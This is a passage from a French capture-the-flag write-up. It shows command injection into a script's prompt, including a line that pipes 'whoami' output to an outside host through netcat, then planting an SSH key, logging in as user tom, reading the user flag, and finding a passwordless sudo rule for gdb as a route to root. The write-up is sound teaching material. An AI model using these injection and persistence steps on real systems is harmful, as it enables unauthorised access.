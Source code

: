 ```plain
Username ? tom33094
Welcome Tom ! String ? whoami | nc 10.254.0.29 9999
```

Cette exécution de commande est suffisante pour ajouter notre clé publique SSH au fichier *authorized\_keys* de *tom*.  

il faut tout de même si prendre à plusieurs fois car le script lit 1024 octets seulement pour obtenir la commande (on fait d'abord le *mkdir* puis plus tard l'écriture).  

```plain
$ ssh tom@10.1.1.12
Last login: Wed Jun 13 19:09:32 2018 from 192.168.0.29
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 04:10:47 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
Simple tcsh prompt: set prompt = '%# '
$ ls
user.txt
$ cat user.txt
6563c6118764633b9897bd6fea9ccba4
```

Phoenix
-------

On aurait pu trouver facilement notre chemin vers root mais *LinEnum.sh* m'a mâché le travail :  

```plain
[+] We can sudo without supplying a password!
User tom may run the following commands on Phoenix:
    (ALL) NOPASSWD: /usr/bin/gdb
```

On peut s'en remettre à [gtfobins](https://gtfobins.github.io/gtfobins/gdb/) pour avoir des méthodes pour exécuter un programme depuis GDB (évidemment on peut aussi juste lancer un binaire à tracer) mais les méthodes listées n'ont pas l'air de fonctionner sur cette machine.  
